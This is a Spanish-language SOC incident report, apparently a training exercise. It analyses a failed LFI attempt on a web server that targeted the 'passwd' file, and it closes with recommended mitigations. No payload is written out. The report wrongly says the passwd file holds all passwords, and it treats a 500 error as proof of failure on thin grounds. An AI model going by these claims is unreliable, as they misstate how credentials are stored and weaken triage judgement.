
- La IP sospechosa intentó acceder a un URL y trató de alcanzar el directorio raíz para obtener acceso al archivo "passwd", que almacena todas las contraseñas en el servidor.

- La solicitud generó un código de estado 500, lo que indica un error interno del servidor. No se ha devuelto ninguna respuesta, lo que confirma que el ataque no fue exitoso.
- Se ha verificado la IP del atacante en VirusTotal, confirmando su origen en China.

### **Resultados de la Investigación:**
- La alerta es una verdadera positiva, indicando un intento de ataque.

- El ataque no fue exitoso, ya que el servidor devolvió un código de estado 500 sin respuesta.

- No es necesario contener WebServer1006, ya que el ataque no tuvo éxito.
- No es necesario escalar el incidente al equipo SOC de Nivel 2.

- El ataque se originó desde Internet hacia la red local.

### **Conclusión:**
El incidente se ha investigado exhaustivamente y se ha confirmado que no representó una amenaza real para el sistema. No se requieren acciones adicionales en este momento.


### **Registro de Lecciones Aprendidas y Mejoras Propuestas**
- Mantener sistemas actualizados y parcheados para mitigar posibles vulnerabilidades.
- Implementar medidas de seguridad adicionales, como listas blancas de IPs, para restringir el acceso a recursos sensibles.
- Mejorar la monitorización y detección de ataques LFI para una respuesta más rápida y efectiva.

### **Actuaciones para Evitar Repetición**
- Implementar restricciones de acceso a archivos sensibles mediante configuraciones de seguridad adecuadas en el servidor web.
- Realizar análisis de seguridad regulares para identificar y corregir posibles vulnerabilidades LFI en el sistema.
